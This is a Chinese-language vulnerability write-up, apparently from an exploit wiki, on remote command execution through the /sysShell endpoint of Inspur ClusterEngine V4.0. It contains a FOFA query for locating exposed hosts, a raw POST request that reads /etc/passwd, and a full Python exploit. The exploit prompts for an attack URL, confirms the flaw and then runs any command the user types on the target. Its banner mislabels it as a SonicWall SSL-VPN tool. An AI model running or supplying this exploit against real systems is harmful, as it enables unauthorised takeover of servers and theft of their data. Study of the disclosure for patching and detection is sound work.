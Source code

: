 # 浪潮ClusterEngineV4.0 sysShell 远程命令执行漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在远程命令执行，攻击者通过发送特殊的请求可以获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0 

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/lc-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求包

```
POST /sysShell HTTP/1.1
Host: xxx.xxx.xxx.xxx
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: lang=cn
Cache-Control: max-age=0
Content-Length: 42

op=doPlease&node=cu01&command=cat /etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/lc-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 注意参数 node 中的 cu01 需要为shell集群中的存在主机

![](http://wikioss.peiqi.tech/vuln/lc-18.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里可以配合任意用户登录漏洞查看主机名

## 漏洞利用

> [!NOTE]
>
> 如过出现 Name or service not 
>
> 请通过上述的方法查看 shell集群主机的名称（脚本默认 cu01）

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: SonicWall SSL-VPN                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command=cat /etc/passwd"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/sysShell \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/sysShell"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Cookie": "lang=cn"
    }
    data = "op=doPlease&node=cu01&command={}".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)

```

![](http://wikioss.peiqi.tech/vuln/lc-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> ClusterEngine V4.0 Shell cluster RCE

![](http://wikioss.peiqi.tech/vuln/lc-20.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)